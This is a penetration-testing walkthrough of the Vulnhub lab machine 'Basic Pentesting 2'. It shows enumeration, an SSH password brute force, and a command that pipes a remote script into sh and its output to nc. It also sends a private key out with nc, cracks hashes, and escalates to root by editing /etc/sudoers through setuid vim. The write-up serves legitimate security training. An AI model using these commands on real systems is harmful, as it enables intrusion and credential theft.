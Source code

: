 *2021-08-23*

*kimm3*

# Walkthrough: Basic Pentesting 2
Platform: Vulnhub

Difficulty: Easy

- [Link](https://www.vulnhub.com/entry/basic-pentesting-2,241/)

## Setup
Kali and target box running on Virtual Box. Both on the same internal network and kali machine as dhcp server.

![dhcplease](assets/markdown-img-paste-20210823045314281.png)

![ll](assets/markdown-img-paste-20210823051946561.png)

## Scans and enumeration
```
export IP=192.168.10.3
ping $IP
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```
![nmap-init](assets/markdown-img-paste-2021082309512180.png)

| Port/s | App |
| - | - |
| 22 | SSH |
| 80 | HTTP/Apache |
| 139,445 | SMB/Samba |
| 8009 | Apache jserv |
| 8080 | Apache tomcat |

- Hostname: BASIC2
- Domain(SMB): WORKGROUP
- OS: Ubuntu/Linux

### SMB
![nmap-hostscripts](assets/markdown-img-paste-20210823051623746.png)

From the nmap initial scan.

`tools/enum4linux/enum4linux.pl -a $IP | tee scans/e4l-init.txt`

![e4l-users](assets/markdown-img-paste-20210823052244607.png)

Using enum4linux we find two users, kay and jan.


### HTTP
#### Port 80
![index80](assets/markdown-img-paste-20210823052617352.png)

![index80-comment](assets/markdown-img-paste-20210823052636116.png)

Interesting commment at the index page.

`ffuf -u "http://192.168.10.3/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdir.md`

![ffuf-indexdir](assets/markdown-img-paste-20210823052905824.png)

There's the dev section.

![dev80](assets/markdown-img-paste-20210823052927760.png)

```
curl "http://192.168.10.3/development/dev.txt" > foundfiles/dev.txt
curl "http://192.168.10.3/development/j.txt" > foundfiles/j.txt
```

![jtxt](assets/markdown-img-paste-20210823053246659.png)

Jan seems to have a weak password, crackable?

![devtxt](assets/markdown-img-paste-2021082305335945.png)

Struts = apache java framework, REST version 2.5.12

#### Port 8080
If we get the credentials for the tomcat manager, we can upload a reverse shell - there's tons of examples online.

![tomcat-mgr](assets/markdown-img-paste-20210823102949411.png)

No valid passwords found.

The Struts example that kay mentions in 'dev.txt' is [vurnelable](https://www.exploit-db.com/exploits/42627) and there's a msf module for it. See [Exploit 2](#exploit-2).

### SSH
Knowing that the user 'jan' probably has a weak password. It might be worth to try to brute force it.

## Get a foothold
There's two easy ways to get a foothold.
1. Brute force jans ssh
2. Exploit the STRUTS/REST showcase with msf

## Foothold 1
**Brute-forcing SSH with user jan**

`hydra $IP -f -t 4 -l jan -P sl/Passwords/Leaked-Databases/rockyou.txt ssh | tee scans/hydra-jan-ssh.txt`

![hydra-ssh-jan](assets/markdown-img-paste-20210823082953624.png)

Score. Now it's just to log in as jan via ssh.

## Foothold 2
**STRUTS/REST and msf**

![struts-shell](assets/markdown-img-paste-20210823102717952.png)

I had to modify the TARGETURI to match the correct version.

## Further enumeration

Check for privilige escalation possibilities. Example is as user jan but could be done with tomcat user.

`curl "http://192.168.10.1/linpeas.sh" | sh | nc 192.168.10.1 1234`

Set up a http server and listener accordingly.

![lp-kay-folder](assets/markdown-img-paste-20210823090448232.png)

The user kay home folder seems to be readable.

![vimbasic](assets/markdown-img-paste-20210823104715102.png)

Vim has the setUID bit set. Wonderful.

## Privesc possibilities
1. Using contents of `/home/kay`
2. Using vim to edit config files like `/etc/sudoers`

## Privilege escalation 1
**With contents of kays home folder**

The pass.bak wasn't readable but the id_rsa was.

```
nc -w 3 192.168.10.1 1234 < .ssh/id_rsa
```

![privkeyssh](assets/markdown-img-paste-20210823092234594.png)

The private key of user kay requires a passphrase, lets try to crack it. I had to download the latest release from hashcats github to make it work.

```
tools/ssh2john.py foundfiles/id_rsa
cd tools/hashcat-6.2.3/
./hashcat.bin -a 0 -m 22931 ~/machines/vh/basic-pentesting-2/creds/kay_idrsa-priv_hash ~/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

![kay-cracked](assets/markdown-img-paste-20210823093147460.png)

![kay-ssh](assets/markdown-img-paste-20210823093343753.png)

We can now read and send over the 'pass.bak' file.

![kay-pw](assets/markdown-img-paste-20210823093942642.png)

The file contains the password for kay, and the user has full sudo privs.

![flag.txt](assets/markdown-img-paste-2021082309402992.png)

## Privilege escalation 2
**Using vim with setUID**

`vim.basic /etc/sudoers`

![added-jan](assets/markdown-img-paste-20210823105010157.png)

Save with `:w!` to override readonly.

![sudoers-works](assets/markdown-img-paste-20210823105126733.png)

It works.

## Post Exploitation
**Password hashes**

The password for kay would be hard to crack wit public wordlists, run it once through hashcat to add the hash/password to your potfile.

`hashcat -a 0 -m 1800 creds/kayhash creds/pass.txt`

**Tomcat mgr password**

Lets find the tomcat manager password that we didn't crack.

```
find / -iname "tomcat*" # Find tomcat install location
cat /opt/apache-tomcat-9.0.7/conf/tomcat-users.xml # View users file.
```

![tomcat-mgr-user](assets/markdown-img-paste-20210823110016314.png)

And there's the credentials.

![tomcat-mgr-login](assets/markdown-img-paste-20210823105804267.png)

Success, we can now use a .WAR payload to get remote command execution, tutorials are all over the Internet.
